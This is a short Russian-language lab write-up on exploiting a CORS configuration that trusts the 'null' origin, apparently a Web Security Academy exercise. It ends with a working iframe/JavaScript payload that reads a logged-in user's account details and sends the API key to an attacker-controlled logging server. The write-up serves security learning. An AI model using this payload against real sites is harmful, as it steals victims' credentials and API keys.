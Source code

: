 Этот веб-сайт имеет небезопасную конфигурацию CORS, поскольку он доверяет «нулевому» источнику.

Чтобы решить лабораторную работу, создайте JavaScript, который использует CORS для получения ключа API администратора и загрузки кода на ваш сервер эксплойтов. Лабораторная работа будет решена, когда вы успешно отправите ключ API администратора.

Вы можете войти в свою учетную запись, используя следующие учетные данные:`wiener:peter`

## Дано

- небезопасная конфигурация CORS, поскольку он доверяет «нулевому» источнику.
- учетная запись:`wiener:peter`
## Задача

- создать JavaScript, который использует CORS для получения ключа API администратора

# Решение

1. Смотрим запрос и проверяем его
![[Pasted image 20250324143344.png]]

2. Формирую код
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script> 
	var req = new XMLHttpRequest(); 
	req.onload = reqListener; 
	req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); 
	req.withCredentials = true; 
	req.send(); 
	
	function reqListener() 
	{ 
		location='https://наш-сайт-куда-нам-надо/log?key='+encodeURIComponent(this.responseText); 
	}; 
</script>">
</iframe>
```